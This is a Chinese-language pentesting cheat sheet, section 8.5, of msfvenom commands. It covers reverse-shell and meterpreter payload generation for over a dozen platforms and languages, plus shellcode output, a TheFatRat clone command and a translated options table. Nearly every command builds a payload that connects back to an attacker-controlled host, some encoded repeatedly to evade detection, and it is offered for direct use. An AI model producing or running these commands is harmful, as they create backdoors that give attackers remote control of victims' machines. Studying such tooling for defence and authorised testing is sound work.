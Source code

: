 ### 8.5 msfvenom常用生成payload命令

**windows:**

    msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -e x86/shikata_ga_nai -b 'x00x0axff' -i 3 -f exe -opayload.exe
    
        

**mac:**

    msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=攻击机IP
    LPORT=攻击机端口 -f macho -o payload.macho
    
        

**android:**

    //需要签名
    msfvenom -a x86 --platform Android -p android/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f apk -o payload.apk
    
        

**powershell:**

    msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=
    攻击机IP LPORT=攻击机端口 -e cmd/powershell_base64 -i 3 -f raw -o payload.ps1
    
        

**linux:**

    msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f elf -o payload.elf
    
        

**php:**

    msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
    cat shell.php | pbcopy && echo '<?php ' | tr -d 'n' > shell.php && pbpaste >> shell.php
    
        

**aspx:**

    msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=
    攻击机IP LPORT=攻击机端口 -f aspx -o payload.aspx
    
        

**jsp:**

    msfvenom --platform java -p java/jsp_shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.jsp
    
        

**war:**

    msfvenom -p java/jsp_shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -
    o payload.war
    
        

**nodejs:**

    msfvenom -p nodejs/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o
    payload.js
    
        

**python:**

    msfvenom -p python/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -
    f raw -o payload.py
    
        

**perl:**

    msfvenom -p cmd/unix/reverse_perl LHOST=攻击机IP LPORT=攻击机端口 -f raw -o
    payload.pl
    
        

**ruby:**

    msfvenom -p ruby/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o
    payload.rb
    
        

**lua:**

    msfvenom -p cmd/unix/reverse_lua LHOST=攻击机IP LPORT=攻击机端口 -f raw -o
    payload.lua
    
        

**windows shellcode:**

    msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=
    攻击机IP LPORT=攻击机端口 -f c
    
        

**linux shellcode:**

    msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=攻
    击机IP LPORT=攻击机端口 -f c
    
        

**mac shellcode:**

    msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=攻击机IP
    LPORT=攻击机端口 -f c
    
        

**便捷化payload生成:**

项目地址:

    https://github.com/Screetsec/TheFatRat
    
        

    root@John:~/Desktop# git clone https://github.com/Screetsec/TheFatRat.git
    //设置时需要挂墙
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201007214955367.png%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201007215000895.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201007215009214.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

**附录:**-
**中文使用说明:**-
**Options:**

    -p, --payload <payload> 使用指定的payload
    --payload-options 列出该payload参数
    -l, --list [type] 列出所有的payloads
    -n, --nopsled <length> 为payload指定一个 nopsled 长度
    -f, --format <format> 指定payload生成格式
    --help-formats 查看所有支持格式
    -e, --encoder <encoder> 使用编码器
    -a, --arch <arch> 指定payload构架
    --platform <platform> 指定payload平台
    --help-platforms 显示支持的平台
    -s, --space <length> 设定payload攻击荷载的最大长度
    --encoder-space <length> The maximum size of the encoded payload
    (defaults to the -s value)
    -b, --bad-chars <list> 指定bad-chars 如: 'x00xff'
    
    -i, --iterations <count> 指定编码次数
    -c, --add-code <path> 指定个win32 shellcode 文件
    -x, --template <path> 指定一个 executable 文件作为模板
    -k, --keep payload自动分离并注入到新的进程
    -o, --out <path> 存放生成的payload
    -v, --var-name <name> 指定自定义变量
    --smallest Generate the smallest possible payload
    -h, --help 显示帮助文件
    
        

    https://www.kanxue.com/book-38-445.htm   高级渗透第十课
    
        

* * *